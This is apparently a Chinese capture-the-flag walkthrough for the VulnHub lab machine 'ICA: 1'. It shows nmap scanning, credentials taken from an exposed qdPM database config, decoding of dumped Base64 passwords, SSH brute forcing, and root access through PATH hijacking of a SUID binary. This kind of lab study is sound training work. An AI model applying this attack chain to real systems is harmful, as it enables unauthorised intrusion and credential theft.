








靶场搭建
靶机下载地址：ICA: 1 ~ VulnHub
下载后使用 VMware 或 VirtualBox 导入，网络设置为 NAT 模式。攻击机使用 Kali Linux。
信息收集
主机发现
使用 arp-scan 发现目标主机：
arp-scan -l
端口扫描
nmap --min-rate 10000 -p- 192.168.21.136
版本扫描
nmap -sV -sT -O -p22,80,3306,33060 192.168.21.136
漏洞扫描
nmap --script=vuln -p22,80,3306,33060 192.168.21.136
开放端口：22（SSH）、80（HTTP）、3306（MySQL）、33060（MySQL X）。主要从 Web 入手。
Web 渗透
qdpm 发现
访问 80 端口，发现是 qdpm 项目管理系统的页面：

数据库配置泄露
qdpm 的数据库配置文件可以直接访问：
http://192.168.21.136/config/databases.yml获取到数据库凭证：
qdpmadmin / UcVQCMQk2STVeS6J数据库枚举
使用获取到的凭证登录 MySQL：
mysql -u qdpmadmin -h 192.168.21.136 -p
查看数据库：
show databases;发现 staff 数据库，进入查看：
use staff;
show tables;查看 login 表：
select * from login;
发现密码是 Base64 加密的。查看 user 表获取用户名信息：
select * from user;Base64 解码
编写 Python 脚本解码密码：
import base64
f = open("passwd")
line = f.readline()
while line:
print(line)
print(base64.b64decode(line))
line = f.readline()
f.close()数据处理提取明文密码：
python 1.py | grep ^b\'[0-9,a-z,A-Z]* | sed 's/^.//' | cut -b 2-17SSH 爆破
使用 nmap 的 ssh-brute 脚本进行爆破：
nmap -p 22 --script=ssh-brute --script-args userdb=user,passdb=pass 192.168.21.136成功获取两个 SSH 账号：
dexter:7ZwV4qtg42cmUXGX - Valid credentials
travis:DJceVy98W28Y7wLg - Valid credentialsSSH 登录靶机：
ssh dexter@192.168.21.136权限提升
登录后查看系统信息，发现提示存在弱点。查找 SUID 文件：
find / -perm -u=s 2>/dev/null发现 /opt/get_access 具有 SUID 权限。
get_access 分析
使用 strings 查看程序逻辑，或用 IDA 反编译分析：

程序内部调用了 cat /root/system.info，可以利用 PATH 劫持将 cat 替换为恶意脚本。
PATH 劫持提权
echo '/bin/bash' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
/opt/get_access执行后成功获取 root 权限。
Flag
取得 root 权限后读取 flag 文件完成渗透。